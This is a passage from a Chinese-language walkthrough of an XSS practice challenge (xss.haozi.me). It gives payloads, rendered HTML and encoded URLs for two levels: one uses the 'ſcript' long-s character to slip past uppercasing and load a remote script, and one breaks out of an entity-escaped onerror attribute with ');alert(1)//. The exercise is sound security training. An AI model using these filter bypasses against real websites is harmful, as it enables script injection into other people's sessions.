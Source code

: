 - 插入代码

```html
<ſcript src="https://xss.haozi.me/j.js" ></script>
```

- 网页代码

```html
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS" ></SCRIPT></h1>
```

- URL

```url
http://xss.test/?input=%3C%C5%BFcript%20src%3D%22https%3A%2F%2Fxss.haozi.me%2Fj.js%22%20%3E%3C%2Fscript%3E
```

## 0x0F

- server 源码

- 闭合绕过
- 注释后面内容

```php
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```

- 插入代码

```html
');alert('1
');alert(1)//
```

- 网页代码

```html
<img src onerror="console.error('&#39;);alert(&#39;1')">
<img src onerror="console.error('&#39;);alert(1)&#x2f;&#x2f;')">
```

- URL

```url
http://xss.test/?input=')%3Balert('1
http://xss.test/?input=')%3Balert(1)%2F%2F
```
